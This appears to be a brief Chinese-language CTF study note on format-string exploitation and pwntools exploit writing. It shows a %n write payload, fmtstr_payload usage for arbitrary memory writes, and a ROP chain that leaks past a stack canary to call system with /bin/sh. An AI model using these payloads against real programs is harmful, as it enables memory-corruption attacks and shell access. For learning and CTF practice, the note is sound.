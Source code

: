 ### FMT利用 && Python3-Exp

[toc]

### FMT利用

**抄自wiki：**

##### 写入现有地址中数据：

第 6 个参数处的值就是存储变量 c 的地址，我们便可以利用 %n 的特征来修改 c 的值。payload 如下

```
[addr of c]%012d%6$n
```

addr of c 的长度为 4，故而我们得再输入 12 个字符才可以达到 16 个字符，以便于来修改 c 的值为 16。

##### 写入特定地址：

`fmtstr_payload`函数：

- `offset`:指的是这个字符串在你内存中的偏移，比如 ，这个字符串目前的地址在栈顶，那么这个参数就是`6`，以此类推。

- `writes`:例子：`fmtstr_payload(6, {leak - 0x218 : pie + 0x0000000000001180})`
- 其余参考文档。

### Python3-Exp

善用`flat`打包`payload`。

例子：

```python
payload = b'a' * 0x108 + flat([canary, canary, canary, canary, pie + 0x000000000000101a, pop_rdi_ret, binsh, system])
```